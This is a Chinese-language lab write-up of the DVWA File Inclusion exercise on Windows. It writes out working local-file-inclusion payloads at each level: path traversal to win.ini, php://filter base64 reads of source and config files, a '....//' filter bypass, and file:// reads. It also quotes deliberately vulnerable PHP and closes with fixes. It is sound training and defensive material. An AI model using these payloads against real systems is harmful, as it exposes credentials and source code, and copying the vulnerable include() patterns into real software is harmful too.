





# File Inclusion

页面用 `?page=` 决定加载哪个文件。参数直接进了 `include()`：

```php
$file = $_GET['page'];
include($file);
```

`include` 干的事是"把目标文件的内容读进来当 PHP 代码执行"。既然路径由用户给，用户就能让它读任意文件，甚至读进来的东西还能被当代码跑。

这个模块分两条路：本地文件包含（读本机文件）和远程包含（读别的服务器上的文件）。DVWA 的 Low 两条都开着，后面几级陆续关掉。

## Low

先按正常值试一下：

```
?page=include.php
```

页面正常显示，说明包含生效了。

### 路径穿越读系统文件

网上教程千篇一律用 `/etc/passwd`，我这是 Windows，对应的是 `C:\Windows\win.ini`。原理一样：从当前 PHP 文件所在目录一层层往上退，退到根再往下走。

```
?page=../../../../../../Windows/win.ini
```

`../` 的层数不一定对，多一层少一层都试一下，调到能读到为止。当前脚本在 `DVWA/vulnerabilities/fi/` 下，往上退 5 到 6 层就能到盘符根。

### php://filter 读源码

`include` 会把文件当 PHP 执行，直接读 `index.php` 只会看到执行结果，看不到源码。`php://filter` 能把文件先转码再输出：

```
?page=php://filter/read=convert.base64-encode/resource=index.php
```

页面吐出一大段 Base64，复制出来本地解码，就是当前模块的完整源码。


同样的手法读 php.ini，能看到 `allow_url_include`、`open_basedir` 这些配置项到底开没开：

```
?page=php://filter/read=convert.base64-encode/resource=D:/phpstudy_pro/Extensions/php/php7.3.4nts/php.ini
```




这条在真实场景里价值很高：拿到源码就等于拿到数据库账号、后台逻辑、隐藏接口。而且它读的是文件，不是执行结果，绕过了"源码不暴露"这层假设。

## Medium

加了四个 `str_replace`：

```php
$file = str_replace("http://",  "", $file);
$file = str_replace("https://", "", $file);
$file = str_replace("../",     "", $file);
$file = str_replace("..\\",    "", $file);
```

四个黑名单，一次替换，替换成空。

### 双写绕过

`str_replace` 只扫一遍。写 `....//`，中间那组 `../` 被删掉以后，剩下的两段拼起来又成了 `../`：

```
....//  →  ../ 
```

所以路径穿越照样能走：

```
?page=....//....//....//....//....//....//Windows/win.ini
```



### php://filter 没被拦

它过滤的是 `http://`、`https://`、`../`，`php://` 不在名单里。所以读源码这条路连绕都不用绕：

```
?page=php://filter/read=convert.base64-encode/resource=index.php
```

要读上级目录下的文件，把双写技巧拼进去：

```
?page=php://filter/read=convert.base64-encode/resource=....//....//config/config.inc.php
```



黑名单的问题在这里暴露得很清楚：**过滤规则和实际协议、实际路径写法之间永远有缝隙**。`php://`、`file://`、`data://`、大小写变形、二次编码，只要名单漏一个就能过。而且替换成空而不是拒绝，本身就制造了新组合。

## High

High 换了个思路，用 `fnmatch` 做前缀白名单：

```php
if (!fnmatch("file*", $file) && $file != "include.php") {
    echo "ERROR: File not found!";
    exit;
}
include($file);
```

只放两种：等于 `include.php`，或者以 `file` 开头。

`../../../../Windows/win.ini` 被拦，前缀不匹配。反斜杠写法 `..\..\..\Windows\win.ini` 也一样，前缀不对就是不对。

### file:// 正好撞在规则上

`file://` 这个包装器名字就是以 `file` 开头的。规则想放行 `file1.php`、`file2.php`，结果连协议一起放进来了：

```
?page=file:///C:/Windows/win.ini
```

能读到：

```
[fonts]
[extensions]
[mci extensions]
[files]
```



换成 hosts：

```
?page=file:///C:/Windows/System32/drivers/etc/hosts
```



这一步的教训不是"file 协议危险"，是**白名单用字符串前缀匹配是错的**。正确的写法应该是固定几个可选值，或者用数组映射 `['file1' => 'file1.php']`，让用户只能选 key，不能给路径。

## Impossible 为什么打不进去

```php
if ($file != "include.php" &&
    $file != "file1.php" &&
    $file != "file2.php" &&
    $file != "file3.php") {
    exit;
}
```

四个值硬比，一个都不多。路径穿越、`file://`、`php://filter` 全部失败，因为参数根本没有自由度。

严格白名单是文件包含唯一靠谱的修法。过滤、替换、前缀匹配都试过了，全都能绕。

## 我卡住的地方

- 一开始照着教程试 `/etc/passwd`，一直失败，忘了自己在 Windows 上。换成 `win.ini` 立刻就出来了。
- `../` 的层数一开始没算对，试了三四次。后来干脆从 3 层到 8 层挨个写一遍，哪个能读就用哪个。
- High 试了很久的路径穿越，全都失败。看到源码里那行 `fnmatch("file*")` 才明白，不是路径问题，是前缀问题。改成 `file://` 一次就过。
- 双写那个 `....//` 第一次写成 `......//`，多了一组点，结果是六个点两个斜杠，替换完不成样子。规则是"两组点加两组斜杠"。

## 怎么修

1. 不要用用户输入拼路径。要选文件就用数组映射，`$_GET['page']` 只能取到 `1` 到 `4`，由代码去对应真实文件名。
2. 真要拼路径，`basename()` 只取文件名，再用 `realpath()` 判断落点是否在允许目录内。
3. `open_basedir` 限死可读目录，让穿越穿不出去。
4. `allow_url_include = Off`，`allow_url_fopen = Off`，把远程包含这条路封掉。
5. 上传目录禁止脚本执行。文件包含和文件上传经常配合出现，堵住一头也能断链。
